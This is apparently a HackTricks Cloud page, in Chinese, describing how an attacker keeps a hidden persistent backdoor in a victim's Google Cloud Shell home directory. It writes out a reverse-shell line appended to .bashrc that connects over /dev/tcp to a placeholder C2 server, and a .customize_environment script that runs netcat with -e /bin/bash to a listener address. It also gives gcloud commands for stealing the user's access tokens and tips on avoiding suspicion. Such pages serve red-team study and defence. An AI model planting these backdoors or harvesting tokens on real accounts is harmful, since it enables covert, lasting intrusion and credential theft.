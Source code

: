 # GCP - 云 Shell 持久性

{% hint style="success" %}
学习并练习 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享黑客技巧。**

</details>
{% endhint %}

## 云 Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google 云 Shell**](https://cloud.google.com/shell/) 为您提供了直接从浏览器访问云资源的命令行访问权限，而无需任何相关费用。

您可以从 **Web 控制台** 或运行 **`gcloud cloud-shell ssh`** 访问 Google 的 Cloud Shell。

对于攻击者来说，这个控制台具有一些有趣的功能：

1. **任何具有 Google Cloud 访问权限的 Google 用户** 都可以访问一个完全经过身份验证的 Cloud Shell 实例（即使是组织的所有者也可以）。
2. 该实例将在至少 120 天内**保留其主目录**，如果没有任何活动发生。
3. **组织无法监视**该实例的活动。

这基本上意味着，攻击者可以在用户的主目录中放置一个后门，只要用户每 120 天至少连接到 GC Shell 一次，后门就会存活，攻击者每次运行时都会获得一个 shell，只需执行：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为**`.customize_environment`**的文件，如果存在，每次用户访问**云shell**时都会被**执行**（就像在之前的技术中一样）。只需插入前面的后门或类似以下内容的后门，即可在用户**“频繁”**使用云shell时保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要提示：**第一次执行需要身份验证的操作时**，用户浏览器中会弹出授权窗口。必须在命令运行之前接受此窗口。如果出现意外弹窗，可能引起怀疑并潜在地危及正在使用的持久性方法。
{% endhint %}

这是在浏览器用户会话中查看作为攻击者执行`gcloud projects list`时的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了云shell，则不会出现弹窗，您可以**收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接是如何建立的

基本上，使用了以下3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\]（将让您添加本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\]（将让您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\]（将告诉您Google Cloud Shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息。

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
